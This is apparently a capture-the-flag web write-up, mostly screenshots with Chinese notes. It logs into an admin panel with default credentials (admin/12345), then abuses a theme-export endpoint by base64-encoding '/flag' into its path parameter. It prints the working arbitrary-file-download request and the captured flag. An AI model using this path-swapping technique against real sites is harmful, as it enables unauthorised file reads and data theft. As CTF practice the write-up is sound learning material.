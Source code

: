 ![](<./img/Pasted image 20230210101327.png>)

![](<./img/Pasted image 20230210101401.png>)

```
/
```

![](<./img/Pasted image 20230210101513.png>)

```
/admin.php
```

![](<./img/Pasted image 20230210102927.png>)

```
username: admin
password: 12345
```

![](<./img/Pasted image 20230210103418.png>)

![](<./img/Pasted image 20230210104206.png>)

在主题页面下选择一个主题进行自定义，选择导出主题

```
/admin.php?m=ui&f=downloadtheme&theme=L3Zhci93d3cvaHRtbC9zeXN0ZW0vdG1wL3RoZW1lL2RlZmF1bHQvMTExLnppcA==
```

```shell
$ echo 'L3Zhci93d3cvaHRtbC9zeXN0ZW0vdG1wL3RoZW1lL2RlZmF1bHQvMTExLnppcA==' | base64 -d
/var/www/html/system/tmp/theme/default/111.zip
```

```shell
$ echo -n '/flag' | base64
L2ZsYWc=
```

```
/admin.php?m=ui&f=downloadtheme&theme=L2ZsYWc=
```

```shell
$ cat Downloads/flag.zip
flag{a8b78826-5f1e-4e1c-bc3e-879941863f8c}
```

#Web #Vulnerabilities #目录扫描 #任意文件下载